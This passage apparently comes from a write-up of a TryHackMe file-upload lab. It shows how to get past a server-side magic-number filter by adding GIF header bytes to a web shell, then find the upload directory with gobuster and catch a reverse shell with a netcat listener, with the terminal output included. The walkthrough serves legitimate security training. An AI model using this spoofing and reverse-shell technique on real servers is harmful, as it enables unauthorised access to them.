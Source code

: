 Now if we save and exit the file (Ctrl + x), we can use file once again, and see that we have successfully spoofed the filetype of our shell:

![](https://i.imgur.com/ldyt88v.png)

Perfect. Now let's try uploading the modified shell and see if it bypasses the filter!

![](https://i.imgur.com/Coat5LI.png)

There we have it -- we bypassed the server-side magic number filter and received a reverse shell.

Head to `magic.uploadvulns.thm` -- it's time for the last mini-challenge.

This will be the final example website you have to hack before the challenge in task eleven; as such, we are once again stepping up the level of basic security. The website in the last task implemented an altered naming scheme, prepending the date and time of upload to the file name. This task will not do so to keep it relatively easy; however, directory indexing has been turned off, so you will not be able to navigate to the directory containing the uploads. Instead you will need to access the shell directly using its URI.

Bypass the magic number filter to upload a shell. Find the location of the uploaded shell and activate it. Your flag is in `/var/www/`.

`GIFs only please!`

`47 49 46 38 37 61`

`GIF89a`

```
kali@kali:~/CTFs/tryhackme/Upload Vulnerabilities$ gobuster dir -u http://magic.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://magic.uploadvulns.thm/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/16 21:23:40 Starting gobuster
===============================================================
/graphics (Status: 301)
/assets (Status: 301)
Progress: 838 / 220561 (0.38%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/11/16 21:23:43 Finished
===============================================================
```

```
kali@kali:~/CTFs/tryhackme/Upload Vulnerabilities$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.251.9 46972
Linux 94d79a333b8d 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:48:52 up  1:36,  0 users,  load average: 0.00, 0.00, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /var/www
$ ls -la
total 28
drwxr-xr-x 1 root     root     4096 Jun 11 15:07 .
```